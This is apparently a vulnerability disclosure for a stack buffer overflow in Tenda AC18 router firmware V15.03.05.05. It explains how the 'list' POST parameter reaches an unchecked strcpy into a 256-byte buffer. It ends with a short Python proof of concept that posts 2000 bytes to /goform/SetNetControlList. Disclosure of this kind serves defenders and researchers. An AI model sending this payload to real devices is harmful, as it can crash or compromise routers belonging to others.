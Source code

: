 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetQosBand` function. The `v8` variable receives the `list` parameter from a POST request and this variable is passed into function `sub_7D644` as `a1`. In function `sub_7D644`, variable `a1` is passed to `src`, which is later assigned to the `dest` variable, which is fixed at 256 bytes. However, since the user can control the input of `list`, the statement `strcpy(dest, src);` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![image-20240305232338043](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305232338043.png)

![image-20240305232347205](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305232347205.png)

![image-20240305232754626](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305232754626.png)

![image-20240305232939744](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305232939744.png)

![image-20240305232808262](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305232808262.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305232252540](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305232252540.png)

